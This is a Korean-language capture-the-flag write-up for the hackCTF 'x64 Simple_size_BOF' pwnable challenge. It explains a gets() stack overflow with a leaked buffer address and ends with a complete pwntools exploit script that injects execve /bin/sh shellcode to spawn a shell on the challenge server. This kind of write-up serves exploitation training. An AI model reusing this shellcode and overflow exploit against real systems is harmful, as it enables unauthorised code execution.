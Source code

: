 ```yaml
---
layout: post
title:  "[hackCTF]x64 Simple_size_BOF"
date:   2020-02-18
---
```


hackCTF pwnable 6번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(bss_start, 0LL, 2, 0LL);
  puts(&s); // s에 저장된 문자열을 출력한다
  printf("buf: %p\n", &v4); // v4의 주소를 출력한다
  gets(&v4); // stdin으로부터 문자열을 입력 받아 v4에 저장한다
  return 0;
}
```
<br>

정리해보자.<br><br>

***

| ret |            |
|:---:|:----------:|
| sfp |     rbp    |
| ... |            |
|  v4 | rbp-0x6D30 |

***
<br>

![0602](https://drive.google.com/uc?id=1IKf6P8UjdQnO0iOExB2Syd8_4ONi70Ve)  
NX 보호기법이 미적용되었으므로 stack에서 쉘코드를 실행시킬 수 있다.  gets로 v4에 쉘코드를 저장하고 ret을 v4의 시작주소로 덮어 문제를 해결하자.<br><br><br>
![0601](https://drive.google.com/uc?id=1OvYOaP63MM0QloMKUdMvTyWAvb09Ncue)  
이 때 ASLR 보호기법이 적용되어 파일을 실행할 때마다 주소가 변하므로 처음 v4의 주소를 출력하면 그 주소를 받아 payload를 완성해야 한다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil("buf: ") # "buf: "까지 받는다

buf = int(p.recv(14), 16) # 14바이트를 받고 16진수로 변환하여 buf에 저장

payload = "\x90"*0x9 # nop으로 일부 채우기

payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" # 쉘코드

payload += "\x90"*(0x6D30 - 0x20 + 0x8) # sfp까지 nop으로 채우기

payload += p64(buf) # 앞에서 받은 v4의 주소(buf) 추가

p.sendline(payload)

p.interactive()
```

## 결과
![0603](https://drive.google.com/uc?id=1YE2LhE9ENLXGPJCWHLNMffHGCiNN3kcr)

